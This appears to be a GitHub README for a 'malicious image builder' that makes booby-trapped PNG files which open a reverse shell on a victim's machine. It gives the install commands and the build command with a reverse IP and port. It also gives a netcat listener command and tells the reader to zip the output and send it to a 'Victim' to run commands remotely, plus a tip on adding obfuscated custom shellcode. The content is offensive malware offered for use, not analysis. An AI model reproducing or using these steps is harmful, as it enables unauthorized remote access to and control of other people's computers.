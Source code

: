 # X-malicious-image-builder
png malware for initial access and open rev sockets

## installation
`git clone https://github.com/hunt3rub/X-image-malware.git`<br/>
`pip install -r requirements.txt`

## how to build PNG malware?
### 1- build malicious PNG picture:
`python3 main.py -reverse-ip 192.168.1.1 -reverse-port 4242 -img custom-picture.png`<br/>
### 2- zip or rar build folder:
open build folder and `zip all files`.
see a picture with png format and two hidden picture.

### 3- open listener:
`nc -lvnp 4242`<br/>
> [!NOTE]
> you must open port 4242 in firewall and have static ip.

### 4- send zip folder to Victim:
after open PNG file you can access to victim and exec command! 😄

## customized shellcode:
open shellcode.py and set your custom payload with obfuscate.<br/>

### for free gaza ❤️<br/>
telegram channel: https://t.me/our_leaks
